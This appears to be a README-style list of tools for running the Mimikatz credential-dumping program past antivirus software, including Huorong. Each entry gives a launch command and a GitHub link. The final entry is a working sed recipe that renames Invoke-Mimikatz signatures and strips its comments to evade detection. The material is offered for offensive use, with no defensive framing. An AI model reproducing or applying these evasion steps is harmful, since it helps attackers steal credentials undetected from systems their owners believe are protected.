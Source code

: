 

### mimikatz-byPass-Huorong

```
python mimikatz_byPass_Huorong.py
```

https://github.com/q1ya/mimikatz-byPass-Huorong


### mimikatz_bypass

```
python mimikatz_bypass.py
```

https://github.com/wangfly-me/mimikatz_bypass



### HTML-mimikatz-

```
cmd.exe mimikatz.html
```
https://github.com/vipserver/HTML-mimikatz-




### Mimikatz.exe-in-JS

```
cmd.exe mimikatz.js
```

https://github.com/hardw00t/Mimikatz.exe-in-JS



### -Have-You-Seen-These-Katz-

```
sed -i -e 's/Invoke-Mimikatz/Invoke-Mimidogz/g' Invoke-Mimikatz.ps1

sed -i -e '/<#/,/#>/c\\' Invoke-Mimikatz.ps1

sed -i -e 's/^[[:space:]]*#.*$//g' Invoke-Mimikatz.ps1

sed -i -e 's/DumpCreds/DumpCred/g' Invoke-Mimikatz.ps1

sed -i -e 's/ArgumentPtr/NotTodayPal/g' Invoke-Mimikatz.ps1

sed -i -e 's/CallDllMainSC1/ThisIsNotTheStringYouAreLookingFor/g' Invoke-Mimikatz.ps1

sed -i -e "s/\-Win32Functions \$Win32Functions$/\-Win32Functions \$Win32Functions #\-/g" Invoke-Mimikatz.ps1
```
